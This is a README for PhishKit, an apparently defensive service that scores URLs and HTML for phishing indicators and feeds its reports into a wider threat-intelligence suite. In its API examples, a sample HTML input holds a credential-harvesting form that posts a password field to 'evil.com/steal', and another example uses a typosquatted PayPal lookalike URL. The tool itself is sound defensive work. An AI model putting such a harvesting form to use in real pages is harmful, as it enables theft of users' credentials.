

# PhishKit — Phishing Analysis Pipeline

URL pattern analysis, DOM structure inspection, and LLM-assisted phishing assessment. Submit a URL (with optional HTML) and get a structured phishing risk report.

## Quick Start

```bash
git clone https://github.com/makhembu/phishkit
cd phishkit
cp .env.example .env
npm install
npm run build
npm start
# Server running at http://localhost:3002
```

## Architecture



phishkit analyzes URLs and DOM content for phishing indicators, then feeds reports into trace for incident correlation with IOCs and anomalies.

## Docker

```bash
# Build and run standalone
docker build -t phishkit .
docker run -p 3002:3002 phishkit

# Run the full ecosystem
docker compose -f ../nexus/docker-compose.yml up
```

## API

### Analyze a URL

```bash
curl -X POST http://localhost:3002/analyze \
  -H "Content-Type: application/json" \
  -d '{"url": "https://secure-login-paypal.com.verify-account.tk/login"}'
```

With DOM/HTML analysis:

```bash
curl -X POST http://localhost:3002/analyze \
  -H "Content-Type: application/json" \
  -d '{"url": "https://phishing-site.xyz/login", "html": "<html><body><form action=\"https://evil.com/steal\"><input type=\"password\" name=\"passwd\"></form></body></html>"}'
```

### Query Reports

```
GET /reports?minScore=0.3&status=completed&domain=paypal
GET /reports/:id
```

### Stats

```
GET /stats
```

## Analysis Pipeline

| Stage | What it does |
|-------|-------------|
| URL Analysis | Checks 25 suspicious keywords, typosquatting (Levenshtein), subdomain depth, URL shorteners, raw IPs, suspicious TLDs, path entropy |
| DOM Analysis | Detects login/password forms, credential-harvesting fields, external form actions, hidden elements, script count |
| LLM Analysis | Optional — sends findings to an LLM for natural language risk assessment |

Scoring combines all stages: `URL × 0.6 + DOM × 0.4` (with DOM), or `URL × 0.7 + LLM × 0.3` (with LLM).

## Why

Phishing kits reuse infrastructure patterns. Automated analysis catches what manual review misses — typosquatted domains, credential harvesters, and suspicious TLDs. Integrates with iris for IOC enrichment.

## Stack

- TypeScript
- Hono
- better-sqlite3
- LLM API (optional)
- Cloudflare Workers + D1 ready

## Roadmap

- [x] URL pattern analysis (keywords, typosquatting, entropy)
- [x] DOM structure analysis (forms, inputs, scripts)
- [x] LLM-assisted risk assessment
- [x] Report storage and querying
- [ ] Screenshot capture and comparison
- [ ] Certificate transparency log checking
- [ ] Brand reputation database
- [ ] Bulk URL submission

## Ecosystem

Part of the threat intelligence ecosystem. PhishKit reports feed into trace for incident correlation alongside iris IOCs, sentry findings, and packetwatch anomalies:

| Service | Port | Description |
|---------|------|-------------|
| [iris](https://github.com/makhembu/iris) | 3000 | IOC aggregation |
| [sentry](https://github.com/makhembu/sentry) | 3001 | Detection rules |
| **phishkit** | **3002** | **Phishing analysis** |
| [packetwatch](https://github.com/makhembu/packetwatch) | 3003 | Anomaly detection |
| [trace](https://github.com/makhembu/trace) | 3004 | Incident correlation |
| [nexus](https://github.com/makhembu/nexus) | 3100 | Dashboard & gateway |

Use `threat-stack.ps1` from the repo root to run all services: `.\threat-stack.ps1 start`
